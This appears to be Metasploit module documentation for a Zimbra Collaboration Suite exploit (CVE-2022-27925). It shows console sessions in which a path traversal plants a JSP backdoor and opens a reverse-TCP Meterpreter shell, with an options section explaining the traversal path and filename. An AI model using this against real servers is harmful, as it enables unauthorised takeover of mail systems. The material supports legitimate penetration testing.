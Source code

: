 ## Vulnerable Application

This module exploits a path-traversal vulnerability as well as an authentication-bypass vulnerability in the following versions Zimbra Collaboration Suite:

* Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
* Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

Note that the open source edition is not affected.

Installing the vulnerable versions of Zimbra is a pain, unfortunately. I used a trial version of ZCS 8.8.12, which you can currently get [here](https://www.zimbra.com/downloads/zimbra-collaboration/). On the download page, after you register with a valid email address, there's an "older versions" link where you can get vulnerable versions.

## Verification Steps

This module should be simple to use out of the box, once the server is up, it's vulnerable:

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/wuuvqmtko.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:35180) at 2022-08-19 11:06:38 -0700
```

There's no easy way that I see to check for the patch (and the only vulnerable version I have is quite a bit older), so the "patched" experience tries to exploit:

```
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

## Options

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially because we can't overwrite files and don't want to use the same payload name more than once.

### `RPORT_PUBLIC`

The HTTPS port for Zimbra, which is used to trigger the payload (since we can't seem to run JSP scripts in the zimbraAdmin root)

### `TARGET_USERNAME`

The username included in the `mboximport` request - any valid username works, `admin` is usually fine
